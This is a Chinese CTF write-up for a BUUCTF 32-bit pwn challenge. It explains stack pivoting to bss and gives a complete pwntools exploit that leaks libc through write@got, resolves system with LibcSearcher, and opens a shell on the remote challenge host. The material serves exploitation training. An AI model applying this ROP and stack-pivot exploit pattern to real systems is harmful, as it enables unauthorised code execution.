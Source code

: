 ```yaml
---
title: BUU刷题 [Black Watch 入群题]PWN-栈迁移
description: BUU刷题 [Black Watch 入群题]PWN-栈迁移-writeup
date: 2021-08-07 15:07:56
categories:
 - PWN
tags:
---
```


# BUU刷题 [Black Watch 入群题]PWN-栈迁移

## IDA分析

![image-20220222141319826](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/image-20220222141319826.png)

主要功能点就在vul_function()里，第一个read，s在bss段里，虽然可以输入0x200，没法溢出；第二个read只能输入0x20字节，只能覆盖ebp和返回地址，这里发现s在bss段里而且可以输入挺多字节，可以考虑栈迁移到bss段里，但是这题没有提供system和/bin/sh，我们还需要构造ROP链泄露libc，栈迁移知识看我另一篇笔记。

## EXP

```python
plt_write = elf.sym['write']
got_write = elf.got['write']
main = elf.sym['main']

payload = 'aaaa' + p32(plt_write) + p32(main) + p32(1) + p32(got_write) + p32(4)
p.sendafter('name?',payload)

payload1 = 'a'*0x18 + p32(bss) + p32(leave_ret)
p.sendafter('say?',payload1)
```

![image-20220222141304741](https://leung-1303067299.cos.ap-guangzhou.myqcloud.com/typora/image-20220222141304741.png)

之后就是简单ROP了，完整EXP，掌握了栈迁移就很简单了

```python
from pwn import *
from LibcSearcher import *

context.log_level = 'debug'

# p = process('./spwn')
p = remote('node4.buuoj.cn','26502')
elf = ELF('./spwn')

bss = 0x0804A300
leave_ret = 0x08048511

plt_write = elf.sym['write']
got_write = elf.got['write']
main = elf.sym['main']

payload = 'aaaa' + p32(plt_write) + p32(main) + p32(1) + p32(got_write) + p32(4)
p.sendafter('name?',payload)

payload1 = 'a'*0x18 + p32(bss) + p32(leave_ret)
p.sendafter('say?',payload1)

write_addr = u32(p.recv(4))
print(hex(write_addr))
libc = LibcSearcher('write',write_addr)
libc_base = write_addr - libc.dump('write')
sys_addr = libc_base + libc.dump('system')
bin_sh = libc_base + libc.dump('str_bin_sh')

payload = 'aaaa' + p32(sys_addr) + p32(0xdeadbeef) + p32(bin_sh)
p.sendafter('name?',payload)

payload = 'a'*0x18 + p32(bss) + p32(leave_ret)
p.sendafter('say?',payload1)

p.interactive()
```